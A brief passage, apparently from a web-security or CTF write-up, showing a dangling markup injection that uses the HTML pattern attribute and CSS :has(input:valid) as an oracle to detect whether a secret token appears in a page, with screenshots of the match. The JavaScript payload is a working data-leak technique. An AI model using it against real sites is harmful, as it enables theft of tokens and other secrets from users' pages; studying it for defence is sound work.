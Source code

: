 - `:valid`: https://developer.mozilla.org/en-US/docs/Web/CSS/:valid
- `pattern`: https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/pattern

Example (with Dangling Markup Injection):

```javascript
const pattern = "TOKEN_012";
const content = `
  <link href="/not-found.txt?{}div:has(input:valid){background:limegreen}" rel=stylesheet>
  <div>
    <input pattern=".+${pattern}.+" value="
`;
location = `http://localhost:3000?content=${
  encodeURIComponent(content)
}${"&a".repeat(1000)}`;
```

Rendered HTML:
![](./img/step3-01.png)

Match (`pattern=".+TOKEN_012.+"`):
![](./img/step3-02.png)
